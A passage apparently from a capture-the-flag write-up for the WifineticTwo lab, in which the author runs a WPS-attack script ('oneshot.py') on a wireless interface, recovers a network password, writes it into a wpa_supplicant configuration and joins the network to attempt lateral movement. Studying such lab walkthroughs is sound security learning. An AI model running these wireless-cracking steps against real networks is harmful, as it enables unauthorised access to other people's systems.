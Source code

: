 Now let's execute this script:

```bash
python3 oneshot.py -i wlan0
```

![](/assets/WifineticTwo/9.png)
<br />
<br />

Great!! We have the password, let's create a file to connect to the network and search for attempt lateral movement:

```bash
cat <<EOF > wpa.conf
network={
ssid="plcrouter"
psk="NoWWEDoKnowWhaTisReal123!"
}
EOF
```
<br />

Now that we have the configuration file, let's connect to the network:

```bash
wpa_supplicant -B -i wlan0 -c wpa.conf
```
<br />

